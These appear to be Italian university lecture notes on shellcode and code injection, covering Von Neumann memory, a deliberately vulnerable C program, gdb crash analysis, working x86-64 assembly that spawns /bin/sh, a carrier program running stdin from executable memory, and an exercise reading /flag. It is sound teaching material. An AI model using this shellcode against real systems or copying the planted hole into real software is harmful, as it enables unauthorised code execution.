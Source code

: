 ```yaml
---
id: '9'
lezione: "20231026"
title: "Shellcode"
author: "Sam. K."
keywords: 
---
```

<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Shellcode
Shellcode è un pezzo di codice che ha caratteristiche particolari, tra cui il dover essere scritto in linguaggio macchina che viene usato per sfruttare le vulnerabilità all'interno di un codice attraverso attacco di tipo **injection**. Lo shell code, tipicamente viene iniettato all'interno di un processo in esecuzione e magicamente questo lo esegue.

Lo shell code contiene codificato in linguaggio macchina le azioni che l'attaccante vuole eseguire sulla macchina.

## Code Injection
Attacco di base è di tipo **Code Injection** (iniettare codice), prima mandarlo in esecuzione, il codice viene messo all'interno della memoria. La `code injection` è possibile su questi calcolatori grazie al fatto che essi si basano sull'architettura di **John Von Neumann**. **Il principio fondamentale di questa architettura è che i dati e il codice condividono lo stesso spazio di memoria**, infatti iniezione di codice avviene **sfruttando istruzioni di I/O**, quindi dati che vengono messi in memoria occupano lo stesso spazio di memoria. 

![Von Nuemann](assets/images/Von_Neumann_Architecture.png)

> **L'architettura di Harvard** invece data memory e program memory occupano spazi di memoria completamente diversi (alcune architetture ARM la implementa). Quindi, su questa architettura non è possibile fare attacchi di tipo Code Injection.

![Harvard](assets/images/Architettura_harvard.svg.png)

### Codice Vulnerabile
Per eseguire questo attacco boisogna prima individuare un pezzo di codice vulnerabile ovvero un **security bug**, è una vulnerabilità che ci permette di **bypassare/scavalcare meccanismo di protezione** di un sistema, quindi, guadagnare un accesso non autorizzato al sistema.

```c
void bye1(){ puts("Goodbye!\n"); }

void bye2(){ puts("Farewell!\n"); }

void hello(char *name, void (*bye_func)()){
    printf("Hello %s!\n", name);
    bye_func();
}

int main(int argc, char **argv){
    char name[1024];
    gets(name);
    srand(time(0));
    if(rand() % 2) hello(bye1, name);
    else hello(name, bye2);
}
```
compila con:
```sh
gcc -z execstack -g -o myFirstInjection myFirstIngection.c
```

>Questo codice a volte dà segmentation fault! (la parte di else).

### Layout di memoria di un processo linux in 64bit

![Memory layout](assets/images/address_space.png)

* Da 2<sup>48</sup> in su è la zona di memoria riservata al Kernel.
* Il processo ha a disposizione gli indirizzi da 0x400000 fino a 2<sup>48</sup> -1.
  
  * il codice .data,  etc...

Eseguiamo il programma in gdb finché non crasha con signal Segmentation Fault `SIGSEGV` oppure IllegalInstruction.

![GDB seg fault](assets/images/gdb_seg.png)
~~~sh
# trovre regione di memoria dove il programma ha fallito
x/s $rip # register instruction pointer / program counter
print $rip # address: 0x7fffffffda80

info proc map # mostra la memoria attuale
~~~
In questo momento il `program counter $rip` contiene l'indirizzo (di stack) dell'istruzione che sta provando ad eseguire (`0x7fffffffda80`). 

Processore stava eseguendo l'istruzione $rip quando è avvenuto il fault.

Usando GDB andiamo a vedere cosa contiene quell'indirizzo di memoria: alcuni hanno avuto `(bad)` significa un istruzione sconosciuto ed alcuni hanno trovato un istruzione di `add`.

`x/s $rip` gdb dice qualè il contenuto di quell'indirizzo di memoria. 

Il program counter ad un certo punto è stato posizionato sulla stringa data, quando si chiama hello con bye2 con argomenti invertiti, il programma cerca di eseguire input dell'utente come fosse una funzione (perché si aspetta una funzione/un puntatore a funzione).

La vulnerabilità è che il programmatore ha scambiato l'ordine dei parametri della funzione.

Il fault è stato creato perché il cpu cerca di interpretare il contenuto di quella locazione memoria come un istruzione, che potrebbe essere un istruzione riconosciuto cosi come uno sconosciuto oppure un istruzione che cerca di accedere ad un indirizzo di memoria assurdo (crea un segmentation fault).

![code injection es2](assets/images/code%20injection%20es2.png)

in questo caso l'input `546tragybfzdcx` è stato interpretato come un istruzione di tipo `xor`.

Un codice universale che permette di fare tutto sulla macchina è eseguire una shell da quel programma, da questo viene il nome `ShellCode`. 

Code injection è la vulnerabilità utilizzato da Morris nel 1988 con Internet Worm. 

### Shell Code per eseguire una shell

```s
.intel_syntax noprefix
.global _start 
.section .text
_start:
mov rax, 59
lea rdi, [rip + binsh]
mov rsi, 0
mov rdx, 0
syscall
binsh:
.string "/bin/sh"
```
(non mettere .section .data)

Verificare che il codice assembly compilato sia come segue:

```s
mov rax, 0x3b
lea rdi, [rip+0x1c]
mov rsi,0x0
mov rdx,0x0
syscall
00... <binsh>:
(bad)
(bad)
.byte 0x69
outs dx,BYTE PTR ds:[rsi]
(bad)
jae 4
```
`gcc -nostdlib -static -o shellcode shellcode.s`

Si estrae la sezione .text dal file ELF con il comando `objcopy --dump-section .text=RawFile executable`.

### Carrier

prima di testarlo bisogna iniettarlo per questo si usa un programma che si chiama `Carrier` perché non può essere eseguito da solo.

```c
#include<sys/mman.h>
#include<unistd.h>
int main(void){
    void *page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0); // riserva 1000 byte in cui disabilita tutte le protezioni
    read(0, page, 0x1000); //legge da stdin fino a 1000 byte in questa zona (o al primo EOF)
    ((void(*)())page)(); //manda in esecuzione 
    return 0;
}
```
questo programma:
* `mmap()`: riserva una zona di memoria di `1000 byte` che disabilità tutte le protezioni.
* `read()`: legge da stdin fino a `1000 byte` (fino al primo EOF)
* manda in esecuzione il programma che stato scritto in variabile `page` (zona memoria riservato con `mmap()`)

### Attacco

    cat rawfile - | ./carrier

* rawfile è il file ottenuto con `objcopy --dump-section .text=rawfile shcode`.

    `cat rawfile | ./carrier` # non funziona perché la pipe chiude lo stdin e quando la shell (sh) inizia trova stdin chiuso quindi termina, bisogna usare `cat rawfile - | ./carrier`.

## Esercizio
Creare un file `/flag` nella root, scrivere del codice che accede al suo contenuto e lo stampa.

Scrivere un programma in C estrarre da file compilato assembly il shellcode.

system call da usare: (open, sendfile, exit).

La shell appare all'utente, non all'attaccante, bisogna poi redirigere la shell. (remote shell). Il codice è un pochino piu complicato.